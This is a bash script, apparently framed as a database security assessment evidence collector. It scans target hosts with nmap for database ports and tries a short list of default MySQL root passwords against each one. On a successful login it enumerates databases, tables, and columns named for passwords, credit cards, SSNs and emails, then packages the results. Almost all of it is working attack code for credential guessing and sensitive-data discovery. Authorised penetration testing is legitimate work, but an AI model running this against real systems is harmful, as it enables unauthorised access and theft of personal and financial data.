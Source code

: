 ```
# File: /opt/db_evidence_collector.sh

ASSESSMENT_ID="DB_ASSESS_$(date +%Y%m%d_%H%M%S)"
EVIDENCE_DIR="/tmp/database_evidence/$ASSESSMENT_ID"
TARGET_LIST="$1"

# Create evidence directory structure
mkdir -p "$EVIDENCE_DIR"/{screenshots,logs,data_samples,network_scans}

echo "=== Database Security Assessment Evidence Collection ===" > "$EVIDENCE_DIR/assessment_summary.txt"
echo "Assessment ID: $ASSESSMENT_ID" >> "$EVIDENCE_DIR/assessment_summary.txt"
echo "Start Time: $(date)" >> "$EVIDENCE_DIR/assessment_summary.txt"
echo "Target List: $TARGET_LIST" >> "$EVIDENCE_DIR/assessment_summary.txt"

# Network scanning and service discovery
echo "[INFO] Starting network discovery phase..."
nmap -p 1433,3306,5432,6379,27017 -sV -oA "$EVIDENCE_DIR/network_scans/db_services" -iL "$TARGET_LIST"

# Parse discovered services
grep -E "mysql|postgresql|redis|mongodb|ms-sql" "$EVIDENCE_DIR/network_scans/db_services.nmap" > "$EVIDENCE_DIR/discovered_services.txt"

# Authentication testing with common credentials
echo "[INFO] Testing database authentication..."
while read line; do
    if echo "$line" | grep -q "mysql"; then
        IP=$(echo "$line" | grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}')
        echo "[TEST] MySQL authentication on $IP" >> "$EVIDENCE_DIR/logs/auth_tests.log"
        
        # Test common MySQL credentials
        for pass in "" "root" "admin" "password" "mysql"; do
            mysql -h "$IP" -u root -p"$pass" -e "SELECT VERSION(), USER(), DATABASE();" 2>/dev/null >> "$EVIDENCE_DIR/logs/mysql_success_$IP.log" && {
                echo "[SUCCESS] $IP:mysql:root:$pass" >> "$EVIDENCE_DIR/successful_logins.txt"
                
                # Enumerate databases and tables
                mysql -h "$IP" -u root -p"$pass" << EOF >> "$EVIDENCE_DIR/data_samples/mysql_enum_$IP.txt" 2>&1
SHOW DATABASES;
SELECT schema_name FROM information_schema.schemata WHERE schema_name NOT IN ('information_schema','mysql','performance_schema','sys');
SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema NOT IN ('information_schema','mysql','performance_schema','sys') LIMIT 20;
SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name REGEXP 'pass|pwd|credit|ssn|email' LIMIT 50;
EOF
                break
            }
        done
    fi
done < "$EVIDENCE_DIR/discovered_services.txt"

# Generate assessment summary
echo "=== ASSESSMENT COMPLETED ===" >> "$EVIDENCE_DIR/assessment_summary.txt"
echo "End Time: $(date)" >> "$EVIDENCE_DIR/assessment_summary.txt"
echo "Successful Logins: $(wc -l < "$EVIDENCE_DIR/successful_logins.txt" 2>/dev/null || echo 0)" >> "$EVIDENCE_DIR/assessment_summary.txt"
echo "Evidence Location: $EVIDENCE_DIR" >> "$EVIDENCE_DIR/assessment_summary.txt"

# Create final evidence package
tar -czf "$EVIDENCE_DIR.tar.gz" -C "$(dirname $EVIDENCE_DIR)" "$(basename $EVIDENCE_DIR)"
```